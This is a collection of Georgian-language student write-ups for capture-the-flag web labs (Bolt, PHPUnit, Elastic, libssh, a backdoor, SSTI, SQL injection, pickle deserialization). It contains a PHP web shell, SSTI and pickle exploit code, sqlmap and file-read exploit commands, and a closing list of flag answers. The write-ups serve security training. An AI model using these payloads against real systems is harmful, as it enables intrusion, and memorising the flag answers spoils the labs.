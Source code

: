 სიმულაციური აქტივობა 1
ლანა ეგიკოვა
Lab: Bolt
შევდივარ მითითებულ აიპი ადრესზე და მხვდება ასეთი გვერდი
ვნახულობ გვერდის სორსს, შემდეგ url-ში ვამატებ სიტყვა bolt-ს რადგან სორსში არის
მითითება href=bolt.cm და ამის შემდეგ იხსნება ასეთი გვერდი სარეგისტრაციო პანელით
შემდეგ ვვარაუდობთ შესაძლო იუზერს და პაროლს და რამდენიმე ცდის შედეგად იხსნება
გვერდი
ამის შემდეგ File management-ში გადავდივართ რო ვნახო შეგვიძლია თუ არა რაიმე php ფაილის
ატცვირთვა, ამისთვის ვქმნით ფაილს test.php , მაგრამ გვერდი ვერ აღიქვამს ამ ფაილს,
ექსთენშენის გადარქმევის შედეგად php->html ატვირთვა შესაძლებელი გახდა
შემდეგ უკვე ატვირთულ html ფაილს ვუცვლით php-ზე და ვაკლიკებთ მასზე, თუმცა გვერდი
მაინც ცარიელია ამიტომ ვცდი ასეთი ბრძაწნების მიწერას
შემდეგ ამის და აი ჩვენი ფლეგიც
Lab: Php-unit
შევდივარ მითითებულ მისამართზე და მხვდება რაღაც გვერდი სურათით
ამ ლაბში დაგვჭირდება dirsearch თული, ეს არის “advanced” command line რომელიც გვეხმარება
ფაილების და ფოლდერების დაბრუტფორსებაში ვებსერვერებზე
გადმოვწერეთ და ტერმინალში ვწერთ ასეთ ბრძანებას
ახლა გვჭირდება გავიგოთ თუ php-unit-ის რომელი ვერსიაა, ამაში დაგვეხმარება composer.json
გავიგეთ ვერსია და ახლა გუგლში ვეძებთ ვულნერაბილითის, მონიშნულ ნაწილს ვუწერთ
მისამართს
ახლა დაგვჭირდება burpsuite, მისი მეშვეობით ხელახლა შევდივართ ამ მისამართზე
შემდეგ ვაგზავნით repeater-ში და ვუწერთ ასეთ ბრძანებას
ვაჭერთ გაგზავნას და აი ჩვენი ფლეგიც
Lab: Libshh
შევდივარ მითითებულ აიპი ადრესზე და მხვდება ასეთი გვერდი, libssh არის
მულტიპლატფორმული C ლაიბრერი, რომელიც ახორციელებს SSHv2 პროტოკოლს კლიენტსა
და სერვერის მხრიდან. ამ ლაიბრერით შეგვიძლია ჩავრთოთ პროგრამები, გადავაგზავნოთ
ფაილები და ასე შემდეგ.
Nmap-ის საშუალებით ვასკანირებ პორტს ტერმინალში
ამის შემდეგ github-ზე ვეძებ libshh.py რადგან ფლეგის მოძებნაში ეგ დაგვეხმარება
და ვწერ ასეთ ბრძანებას რომელმაც უნდა მიმიყვანოს ფლეგამდე
თეორიული ნაწილი
2) Fuzzing არის ხარისხის უზრუნველყოფის (QA) ტექნიკა, რომელიც გამოიყენება
კოდირების შეცდომებისა და უსაფრთხოების ხარვეზების გამოსავლენად
პროგრამულ უზრუნველყოფაში, ოპერაციულ სისტემებში ან ქსელებში. ის
მუშაობს სისტემის დაქრაშვის მეთოდით ან რაიმე შეცდომების გამომწვევით,
როცა ხდება რანდომი ინპუტების შეყვანა. თუ აღმოჩენილია vulnerability, fuzz
ტესტირების პლატფორმა (ასევე უწოდებენ fuzzer) დაგვეხმარება მიზეზის
დადგენაში.
Website enumeration გულისხმობს რესურსების აღმოჩენას, რომლებსაც იყენებს ვებ
სერვერი, ისევე როგორც მთავარ, ძირითად ტექნოლოგიას, რომელზეც მუშაობს
ვებ სერვერი. ეს ინფორმაცია დაგვეხმარება ავარჩიოთ უფრო ეფექტური
თავდასხმის გზები, ისევე როგორც ასევე გამოიყენოს დაუცველობა ვებ სერვერის
პროგრამული უზრუნველყოფის კონკრეტულ ვერსიებში.
ჩვენ გვაქვს ასეთი თულები- Nmap, Metasploit, dirbuster და ა.შ. რაც გვეხმარება
Website enumeration-ისთვის
1)CVE-2018-10993 არის Libssh აუტენტიფიკაციის ექსპლოიტი, ხოლო libshh არის ლაიბერი.
კონკრეტულად ეს ფექიჯი როგორც უწერიათ საიტზე, არის
მულტიპლატფორმული C ლაიბერი რომელიც ახორციელებს SSHv2 პროტოკოლს
როგორც კლიენტ ასევე სერვერ საიდზე. ამ ლაიბერით შეგვიძლია ჩავრთოთ
პროგრამები, გადავაგზავნოთ ფაილები, დავამენეჯოთ ფაბლლიქ ქიები და ა.შ.
Lab: elastic
მითითებულ IP მისამართზე შესვლისას, ეკრანზე მოცემული შედეგით საკმაოდ დიდი
ინფრომაციის მიღება შეიძლება.
ვიღებთ ინფორმაციას ვერსიის შესახებ. ამ შემთხვევაში ვხედავთ რომ გამოყენებულია 1.3.4
ვერსია. ამიტომ ვეძებ ცნობილ სისუსტეებს elastic ვერსია 1.3.4 ზე. ინტერნეტში ძებნის
შედეგად გადავაწყდით Arbitrary file read CVE. ამაზე exploit შეგვიძლია ვიპოვოთ CVE-2015-
5531- Arbitrary file Vulnerability. ამ exploit-ის გამოყენებისთვის უნდა გავუშვათ შემდეგი
ბრძანება: python3 exploit_elastic.py IPIPIP /etc/passwd დაბრუნებულ შედეგში ჩანს ჩვენი CTF.
Lab: nodiff-backdoor
IP მისამართზე შესვლისას, პირველ რიგში უნდა გამოვიკვლიოთ მაქსიმალურად მეტი რამ ამ
საიტის შესახებ. კვლევის ერთ-ერთ მეთოდს წარმოადგენს Dirsearch. მისი გამოყენების
შედეგად რამდენიმე ქვესაქაღალდე იქცევს ყურადღებას, ერთ-ერთია backup.zip. როდესაც ამ
მისამართს მივმართავთ გადმოიწერს დაარქივებულ ფაილს. ფაილის ამორაქივების შემდეგ
ვხედავთ რომ ის იყენებს PHP-ს. ამიტომ ვეძებთ არსებულ სისუსტეებს, რაც შეიძლება რომ
გამოვიყენოთ. კოდში, backdoor-ის სახით, შეიძლება დატოვებული იყოს ისეთი კოდის
ფრაგმენტი, რომელიც გაშვებადია. ერთ-ერთ გაშვებად კოდს წარმოადგენს shell_exec. კოდში
grep –r “shell_exec(“ ბრძანებით ვნახულობთ რომ ასეთი ფრაგმენტი არსებობს. ამ ფრაგმენტის
გაანალიზებით ვხვდებით რომ როდესაც გავაგზავნით GET request-ს სადაც
welldone=knockknock გაეშვება ის რასაც ასევე ჩვენ გადავცემთ shazam პარამეტრის სახით.
DirSearch ის დროს ასევე შევამჩნიეთ flag.php ამიტომ მოდი ვცადოთ მისი წაკითხვა.
/?welldone=knockknock&shazam=cat flag.php ერთი შეხედვით არაფერი მოხდა თუმცა request
წარმატებული იყო. თუ ჩვენ მაინც შევამოწმებთ inspect elements ჩვენ დავინახავთ ჩვენს flag-ს.
სიმულაციური აქტივობა 1
გიორგი მაკასარაშვილი
Lab: PHP-Unit
მოცემულ IP მისამართზე შესვლისას ვხედავთ შემდეგ სურათს.
ახლა ვცდილობთ რაც შიძლება მეტი ინფორმაცია მივიღოთ ამ გვერდის შესახებ. საკმაოდ დიდ
ინფორმაციას მივიღებთ თუ გამოვიყენებთ dirsearch-ს, რომელიც დაგვეხმარება ფოლდერებისა
და ფაილდების bruteforce-ში. იმისთვის რომ ეს გამოვიყენოთ უნდა დავაყენოთ dirsearch და
გავუშვათ შემდეგი ბრძანება ./dirsearch.py -u http://34.89.210.219:30835/ -w ./db/dicc.txt
თვალში გვხვდება composer.json, მოდი ვნახოთ რა არის მანდ.
ჰოი საოცრებავ, ვიგებთ PHP-ს ვერსიას. ახლა შეგვიძლია ინტერნეტში მოვძებნოთ თუ არის ამ
ვერსიაზე უკვე რაიმე ცნობილი სისუსტე.
ყოფილა, PHPUnit Remote Code Execution (CVE-2017-9841), გადაკითხვის შედეგად ვიგებთ რომ
თურმე შეგვიძლია ჩვენთვის სასურველი php კოდის გაშვება, აბა ვცადოთ....
ამისთვის /vendor/phpunit/phpunit/src/Util/PHP/eval-stdin.php უნდა დავამატოთ url-ს და გავუშვათ
post request. ამაში burpsuite დაგვეხმარება.
Burpsuite-ში ჩავრთავთ proxy-ს და მივუთითებს შესაბამის მისამართს, ამის შემდეგ გადაგვაქ
repeater-ში და დავატებთ ჩვენთვის სასურველ php კოდს
ვუალაა!!! ფლეგი ნაპოვნია.
Lab: elastic
მოცემულ IP მისამართზე შესვლისას ვხედავთ შემდეგ სურათს.
უკვე საკმაოდ დიდ ინფორმაციას ვიღებთ. ყველაზე მნიშვნელოვანი არის ვერსია 1.3.4
ინტერნეტში მოვძებნოთ თუ არის რაიმე ცნობილი სისუსტე elastic 1.3.4-ზე. მრავალი ძებნის
შემდეგ წავაწყდით exploit-ს: https://github.com/nixawk/labs/tree/master/CVE-2015-5531
ამ exploit-ის გამოყენებისთვის უნდა გავუშვათ შემდეგი ბრძანება:
python3 exploit.py http://34.89.210.219:31944/ /etc/passwd
დაბრუნებულ შედეგში ჩანს ჩვენი CTF.
სიმულაციური 2: გიორგი მაკასარაშვილი
ლაბი:
მოცემულ აიპი მისამართზე შესვლისას ვხედავთ შემდეგ სურათს
პირველ რიგში უნდა მოვიძიოთ რაც შეიძლება მეტი ინფორმაცია. ამის ერთ-ერთი
საშუალებაა dirseach. მისი გამოყენების შედეგად თვალში გვხვდება რამდენიმე დეტალი.
ერთ-ერთია რეგისტრაციის გვერდი.
ამ გვერდზე გადასვლისას ვხედავთ შემდეგ სურათს
ვცადოთ რეგისტრაცია სახელი:admin პაროლი:Giorgi
ამის შემდეგ ვცადოთ login
input ველში ვცადოთ სხვადასხვა მნიშვნელობების ჩაწერა. მაგალითისთვის როგორც ჩანს
%ის ჩაწერის დროს ყველანაირ პროდუქტს გვაჩვენებს, რაც იმას ნიშნავს რომ საიტი
მოწყვლადია SQLi injection-ის მიმართ.
ახლა შევამოწმოთ cookie, რადგან ვნახოთ დალოგინებისას რაიმე თუ შეინახა იქ. რაღაც გვაქ
ახლა ის უნდა გამოვიყენოთ sql injection-ში, რომლესაც sqlmap-ის საშუალებით ვიზავთ.
sqlmap --cookie="PHPSESSID=742e03f3a4f089e568eb2f9857c7c9ad" -u
http://34.107.71.117:32625/index.php --forms --columns --random-agent ბრძანების გაშვების
შემდეგ ვიღებთ შედეგს სადაც ცხრილის სახელად ვხედავთ ctf-ის ნაწილს
CTF{1nformat1on_sch3ma_c4n_ , ხოლო მეორე ნაწილი იმავე ცხრილში სვეტში ერთ-ერთი
მნიშვნელობაა: _d4t4}
CTF{1nformat1on_sch3ma_c4n_d4t4}
ლაბი: shark
მოცემულ მისამართზე შესვლისას ვხედავთ მხოლოდ ერთ input ველს
ამ ველში ნებისმიერი რამის ჩაწერის დროს, იგივე რამ გვიბრუნდება უკან
ცოტა უფრო მეტი ინფორმაცია რომ მოვიძიოთ მის შესახებ მაგალითად სერვერის, უნდა
გამოვიყენოთ curl
ვხედავთ რომ ეს არის Werkzeug. ინტერნეტ სივცეში მრავალი ძებნის შემდეგ მივაკვლევთ
შესაბამის ბრძანებას, რისი გაშვების შემდეგაც ვიპოვით ctf-ს <%
x=open("flag","r")
%>
${x.readlines()}

სიმულაციური აქტივობა
გიორგი მაკასარაშვილი
LAB: shark
მოცემულ მისამართზე შესვლისას ვხედავთ მხოლოდ ერთ input ველს
ამ ველში ნებისმიერი რამის ჩაწერის დროს, იგივე რამ გვიბრუნდება უკან
ცოტა უფრო მეტი ინფორმაცია რომ მოვიძიოთ მის შესახებ მაგალითად სერვერის,
უნდა გამოვიყენოთ curl
ვხედავთ რომ ეს არის Werkzeug. ინტერნეტ სივცეში მრავალი ძებნის შემდეგ
მივაკვლევთ შესაბამის ბრძანებას, რისი გაშვების შემდეგაც ვიპოვით ctf-ს
<%
x=open("flag","r")
%>
${x.readlines()}
LAB: online encryption
მოცემულია wireshark ფაილი, ამ ფაილში უნდა მოვძებნოთ ინფორმაცია შესაბამისი ფილტრების
გამოყენებით, პირველ რიგში უნდა გავფილტროთ http. ამის შემდეგ დავაკვირდებით რომ საინტერესო
ინფორმაცია არის გაგზავნილი მისამართზე 23.101.63.214, ამიტომ ვადებთ 2 ფილტრს. მიმღები რომ
იყოს აღნიშნული მისამართი და გამოყენებული იყოს http.
შედეგად ვხედავთ რამდენიმე გაგზავნილ პაკეთს, ყურადღებას იქცევს post მეთოდი რადგან ის
დაშიფრულია MD5-ით. მცირე ძებნისას ვაწყდებით დაშიფრულ სტრიქონს.
ინტერნეტში ძებნისას შეგვიძლია მივაკვლიოთ მისი გაშიფრის ხერხს.
შუალედური: გიორგი მაკასარაშვილი
LAB: elastic
მოცემულ IP მისამართზე შესვლისას ვხედავ მოცემულ შედეგს
უკვე ერთი შეხედვით საკმაოდ დიდ ინფორმაციას ვიღებთ. ერთ-ერთი ყველაზე მნიშვნელოვანია
ვერსია. როგორც ვხედავთ ვერსიის ნომერია 1.3.4 ამიტომ ვცდილობთ მივიღოთ ინფორმაცია
ელასტიკის 1.3.4 ვერსიის შესახებ.
Elastic 1.3.4 -ის გუგლში მოძებნის შედეგად ვიღებთ ქვემოთ მოცემულ სურათს რაც ნამდვილად არ
გვჭირდება
ამიტომ ვცდილობთ მოვძებნოთ აღნიშნული ვერსიის სისუსტეები. მცირე ძებნის შემდეგ
გადავაწყდებით CVE-2015-5531 -ს რაზეც უკვე არსებობს exploit
ამ კოდის გაანალიზების შემდეგ ვხვდებით რომ მის გამოსაყენებლად საჭიროა შემდეგი ბრძანების
გამოყენება: python3 exploit.py http://34.159.104.59:31363/ /etc/passwd
და აი ჩვენი CTF-იც
LAB: BOLT
მოცემულ მისამართზე შესვლისას გვხვდება ქვემოთ მოცემული შედეგი
არსებული საიტის სორს კოდის ანალიზის შედეგად ვხვდებით რომ URL-ში უნდა მივმართოთ
http://34.159.104.59:30660/bolt-ს რის შედეგადაც ვხვდებით ავტორიზაციის გვერდზე
უნდა ვეცადოთ შევიდეთ ადმინის უფლებებუით, რამდენიმე მარტივი ცდის შემდეგ ჩვენ შეგვიცლია
გამოვიცნოთ მომხმარებლის სახელი და პაროლი რადგან არც თუ ისე ძლიერი პაროლი და default
მომხმარებლის სახელი არის გამოყენებული.
შესვლისას და აღნიშნული dashboard-ის დათვალიერებისას ვხედავთ რომ შეგვიძლია ფაილების
ატვირთვა, თუმცა არა ყველა ფორმატის, ასევე შეგვიძლია ფაილის ფორნმატის შეცვლა. უნდა ვცადოთ
სასურველი ფაილის ფორმატის ატვირთვა და შემდეგ ამ ფაილის ტიპის შეცვლა. ავტვირთოთ TXT ტიპის
ფაილი, რომკელშიც იქნება PHP-ის კოდი ჩაწერილი, მაგალითისთვის: <?php system($_GET['cmd']) ?>
რომელიც ქომანდ ლაინზე მოგვცემს წვდომასა და ბრძანებების გაშვების შესაძლებლობას.
ატვირთვის შემდეგ უნდა შევუცვალოთ ფაილს გაფართოება და გავხადოთ PHP. ფაილის გახსნის შემდეგ
გადავდივართ ახალ გვერდზე. მოდი ვცადოთ რაიმე ქომანდის გაშვება URL-ის საშუალებით.
შედეგი გვაქვს და აქვრ ვხედავთ ფაილს სახელად flag.txt. უნდა წავიკითხოთ ეს ფაილი შესაბამისი
ბრძანებით: cat /flag.txt
ჩვენი ფლეგიც.
LAB: PHP unit
მისამართზე შესვლისას ვხედავთ შემდეგ სურათს
პირველ რიგში ვცდილობთ მაქსიმალურრად მეტი ინფორმაცია მივიღოთ ამ საითის შესახებ. ერთ-ერთი
გზა არის dirsearch
მისი გამოყენების შემდეგ თვალში საინტერესოდ ხვდწება რამდენიმე ქვედირექტორია ერთ-რთი არის
composer.json. შესაბამის მისამართზე შესვლისას ვხედავთ ვერსიის ნომერს.
ახლა საჭიროა ამ ვერსიის PHP-ზე ვნახოთ შესაბამისი სისუსტეები.
როგორც ჩანს მოცემულ მისამართზე შესვლისას ჩვენ გვაქ შესაძლებლობა გავუშვათ ბრძანებები. მოდი
ვცადოთ burpsuite-ს გამოყენებით. პირველ რიგში გავუშვათ ls -l / რათა ვნახოთ თუ რა არის
განთავსებული იქ
აქვე ვხედავთ ფაილს სახელად flag.txt მოდი ვნახოთ რა არის მანდ.
ჩვენი ფლეგი.
import pickle
import base64
import requests
class Exploit(object):
def __reduce__(self):
return eval, ("open('flag','r').read()",)
def sendPayload(p):
print(base64.urlsafe_b64encode(p))
headers = {"Cookie": "data=" + base64.urlsafe_b64encode(p).decode()}
t = requests.get("http://34.107.71.117:32664/dashboard",headers=headers)
print(t.text)
sendPayload(pickle.dumps(Exploit(), protocol=2))







php - CTF{8c7795c5332da1491741a61fe780006a619273444bfe54aff555e28f83e3b123}

bolt - CTF{b12e3b34c581d4f3c66c00cc7f8dabec8838dab0acf26c2cfbe2f7d291326f75}

shark - CTF{4b08602e0090f81707b98ca687a5cacfd32888ffceef1d3cff2d99e6034b1e58}

sweet-and-sour - CTF{ccc1ccef217ed19c492bdada049ad2b0fbf1adcb72a92f13ab153aae068f797f}

nodiff - CTF{87702788126237df9c4a915fea9441345dc6b3a0272b214b2c31e50a8f89c4b1}

schematics - CTF{1nformat1on_sch3ma_c4n_d4t4}

elastik - CTF{265b92ed0091f139fdcd438196426f205fed9b14bce765bafd8344b1d96183e5}

Authorization - CTF{5b7cc033a48df4958a076286420b4a91631defa16be26409afbdf1e053367b21}

online encryption - ECSC{dd545fbf12fd608daa8c201f50f95c8520bec9f744a3573b1dc0bc53ce019726}
